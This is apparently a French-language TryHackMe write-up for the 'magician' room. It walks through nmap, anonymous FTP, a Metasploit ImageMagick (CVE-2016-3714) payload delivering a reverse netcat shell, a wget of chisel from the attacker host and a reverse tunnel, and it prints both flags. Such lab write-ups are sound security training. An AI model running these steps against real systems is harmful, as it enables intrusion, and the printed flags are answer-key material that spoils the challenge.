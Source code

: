 # magician #

## Task 1 Find the flags! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.126.254 magician.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A magician -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 14:07 CEST
Nmap scan report for magician.thm (10.10.126.254)
Host is up (0.072s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/10%OT=21%CT=1%CU=36886%PV=Y%DS=2%DC=T%G=Y%TM=61126C7
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   34.36 ms  10.9.0.1
2   102.55 ms magician (10.10.126.254)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.06 seconds

```

D'après le scan on voit 2 services : 
Le service FTP sur le port 21.     
Le service HTTP sur le port 8081.   

```bash
connected to magician.
220 THE MAGIC DOOR
Name (magician.thm:tim): anonymous
331 Please specify the password.
Password:

230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.

```

Quand on se connect sur le service FTP on un message qui nous dirige vers un site.

![page1](./Task1-01.png)

Le site nous indique une faille CVE-2016-3714 avec un exemple pour exploiter la faille.     

![page2](./Task1-02.png)

Sur la page web on peut téléverser une image au format.png.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
msf6 > search imagemagick

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/coppermine_piceditor             2008-01-30       excellent  Yes    Coppermine Photo Gallery picEditor.php Command Execution
   1  exploit/multi/fileformat/ghostscript_failed_restore  2018-08-21       excellent  No     Ghostscript Failed Restore Command Execution
   2  exploit/unix/fileformat/ghostscript_type_confusion   2017-04-27       excellent  No     Ghostscript Type Confusion Arbitrary Command Execution
   3  exploit/unix/fileformat/imagemagick_delegate         2016-05-03       excellent  No     ImageMagick Delegate Arbitrary Command Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/unix/fileformat/imagemagick_delegate

```

Sur metasploit on trouve un exploit qui permet d'exécuter du code à distance.  

```bash
msf6 > use 3
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/imagemagick_delegate) > options

Module options (exploit/unix/fileformat/imagemagick_delegate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   msf.png          yes       Output file
   USE_POPEN  true             no        Use popen() vector


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.26     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   SVG file

msf6 exploit(unix/fileformat/imagemagick_delegate) > set LHOST 10.9.228.66
LHOST => 10.9.228.66

msf6 exploit(unix/fileformat/imagemagick_delegate) > set target 1
target => 1

msf6 exploit(unix/fileformat/imagemagick_delegate) > run

[+] msf.png stored at /home/tim/.msf4/local/msf.png

tim@kali:~/Bureau/tryhackme/write-up$ cp /home/tim/.msf4/local/msf.png ./
```

Avec metasploit on créer un fichier avec un reverse shell à l'intérieur. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
listening on [any] 4444 ...
```

On écoute le bon port 

![page3](./Task1-03.png)

On téléverse le l'exploit avec le reverse shell.   


**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.24.42] 57896
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
cat /home/magician/user.txt
THM{simsalabim_hex_hex}

```

On obtient un shell avec les droits magicien.    
On lit le fichier user.txt.    

La réponse est : THM{simsalabim_hex_hex}     

**root.txt**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
magician@magician:/tmp/hsperfdata_magician$ 

agician@magician:/tmp/hsperfdata_magician$ netstat -l
netstat -anp | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      933/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
unix  2      [ ACC ]     SEQPACKET  LISTENING     14990    -                    /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     22561    921/systemd          /run/user/1000/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     22565    921/systemd          /run/user/1000/gnupg/S.gpg-agent
unix  2      [ ACC ]     STREAM     LISTENING     22566    921/systemd          /run/user/1000/gnupg/S.gpg-agent.extra
unix  2      [ ACC ]     STREAM     LISTENING     22567    921/systemd          /run/user/1000/gnupg/S.gpg-agent.ssh
unix  2      [ ACC ]     STREAM     LISTENING     22568    921/systemd          /run/user/1000/snapd-session-agent.socket
unix  2      [ ACC ]     STREAM     LISTENING     22569    921/systemd          /run/user/1000/gnupg/S.dirmngr
unix  2      [ ACC ]     STREAM     LISTENING     22570    921/systemd          /run/user/1000/gnupg/S.gpg-agent.browser
unix  2      [ ACC ]     STREAM     LISTENING     14939    -                    /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     14949    -                    /run/systemd/journal/stdout
unix  2      [ ACC ]     STREAM     LISTENING     14988    -                    /run/lvm/lvmpolld.socket
unix  2      [ ACC ]     STREAM     LISTENING     15407    -                    /run/lvm/lvmetad.socket
unix  2      [ ACC ]     STREAM     LISTENING     21929    -                    /var/lib/amazon/ssm/ipc/termination
unix  2      [ ACC ]     STREAM     LISTENING     18963    -                    /var/lib/lxd/unix.socket
unix  2      [ ACC ]     STREAM     LISTENING     18922    -                    @ISCSIADM_ABSTRACT_NAMESPACE
unix  2      [ ACC ]     STREAM     LISTENING     21928    -                    /var/lib/amazon/ssm/ipc/health
unix  2      [ ACC ]     STREAM     LISTENING     18917    -                    /run/snapd.socket
unix  2      [ ACC ]     STREAM     LISTENING     18919    -                    /run/snapd-snap.socket
unix  2      [ ACC ]     STREAM     LISTENING     18935    -                    /run/uuidd/request
unix  2      [ ACC ]     STREAM     LISTENING     18941    -                    /run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     18951    -                    /var/run/dbus/system_bus_socket

```

On remarque qu'il quelque chose de connecter sur le local host sur le port 6666.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel

tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

tim@kali:~/Bureau/tryhackme/write-up$ chisel server -p 9002 --reverse
2021/08/10 16:36:40 server: Reverse tunnelling enabled
2021/08/10 16:36:40 server: Fingerprint U/LvCFAMN1EFU5sTy4i9EE39NWyOY7mKunwk+pE0z2U=
2021/08/10 16:36:40 server: Listening on http://0.0.0.0:9002
```

Sur notre machine on prépare chisel.  
On dit à chisel d'écouter sur le port 9002.   

```bash
magician@magician:/tmp$ wget http://10.9.228.66:8000/chisel -nv
wget http://10.9.228.66:8000/chisel -nv
2021-08-10 10:27:56 URL:http://10.9.228.66:8000/chisel [8750072/8750072] -> "chisel" [1]

magician@magician:/tmp$ chmod +x chisel
chmod +x chisel

magician@magician:/tmp$ ./chisel client 10.9.228.66:9002 R:9001:127.0.0.1:6666
<hisel client 10.9.228.66:9002 R:9001:127.0.0.1:6666
2021/08/10 10:40:00 client: Connecting to ws://10.9.228.66:9002
2021/08/10 10:40:00 client: Connected (Latency 36.73419ms)
```

Sur la machine la victime on fait un redirection de port 6666 à 9002.   

![page4](./Task1-04.png)

On se retrouve avec une page qui demande un nom de fichier.

![page5](./Task1-05.png)

En mettant /root/root.txt

On une chaîne en hexadecimal.  

54484d7b6d616769635f6d61795f6d616b655f6d616e795f6d656e5f6d61647d0a

![page6](./Task1-06.png)

Quand on convertie notre chaîne on a notre flag.   

La réponse est : THM{magic_may_make_many_men_mad}  




